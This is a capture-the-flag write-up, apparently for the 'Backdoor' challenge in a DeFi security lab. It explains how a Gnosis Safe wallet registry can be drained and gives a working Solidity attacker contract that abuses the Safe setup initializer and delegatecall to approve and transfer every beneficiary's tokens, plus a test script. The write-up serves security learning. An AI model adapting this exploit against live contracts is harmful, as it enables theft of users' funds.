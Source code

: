 ## GOAL
Your goal is to take all funds from the registry. In a single transaction.

## Expalantion 
This is really a difficult one so let us break it.
1. Firt what is GnosisSafe wallet? The best way is to check it yourself, however my understanding is that it is a multi-sig wallet, that allow many users to be owners, you can setup modules in it if more than half of the owners agreed.
2. Second what is a proxy contract? So imagine you have a contract and you want to upgrade it to another contract what should you do? Here proxies come to place, you can create a proxy contract add all data in it and then you add function to delegate calls to any contract you want by specifying the address. 
3. Now in the GnosisSafe.sol you have a setup function that allow you to setup your proxy.
4. Now if you see in the walletRegistery contract they told us that the proxy is called by 
    /**
     @notice Function executed when user creates a Gnosis Safe wallet via GnosisSafeProxyFactory::createProxyWithCallback
             setting the registry's address as the callback.
     */
5. So let us check the createProxyWithCallback in GnosisSafeProxyFactory. As you can see we can set intializer in createProxyWithCallback function so what we will add ;) ?
6. So now how we will break this contract?
   We need to create a wallet for every user and set them as owner, then using the modules since it delegate a call, we can use it to approve our tokens, so by that we    can easily use transferFrom to our address. 

## Solution
```solidity
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol"; 
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxy.sol";

contract BackdoorAttaker{
    address public immutable masterCopy;
    address public immutable walletFactory;
    IERC20 public immutable token;
    address public immutable walletRegistery;
    uint public constant amount = 10*10**18; // every user has 10 token

    constructor(address _mastercopy,address _walletFactory,address _token,address _walletRegistery) 
    {
        masterCopy = _mastercopy;
        walletFactory = _walletFactory;
        token =IERC20(_token);
        walletRegistery = _walletRegistery;
    }
    function approveDelegateCall(address _spender,address _token) external {
        IERC20(_token).approve(_spender,amount);
    }

    function attack(address[] memory beneficiaries) public 
    {
        for(uint i =0;i<beneficiaries.length;i++)
        {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = beneficiaries[i];

            string memory signature = "setup(address[],uint256,address,bytes,address,address,uint256,address)";
            bytes memory init = abi.encodeWithSignature(signature, 
                beneficiary,
                1,
                address(this),//msg.sender will be the proxy contract
                abi.encodeWithSelector(BackdoorAttaker.approveDelegateCall.selector,address(this),address(token)),
                address(0),
                address(0),
                0,
                address(0)
            );
            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(walletFactory).createProxyWithCallback(masterCopy,init,123,IProxyCreationCallback(walletRegistery));
            token.transferFrom(
                address(newProxy),
                msg.sender,
                10 ether
            );
        }
    }

    


}

```
```javascript
it('Exploit', async function () {
        this.backdoorAttack = await (await ethers.getContractFactory('BackdoorAttaker', attacker)).deploy(
            this.masterCopy.address,
            this.walletFactory.address,
            this.token.address,
            this.walletRegistry.address
        );
        this.backdoorAttack.attack(users);
    });
```
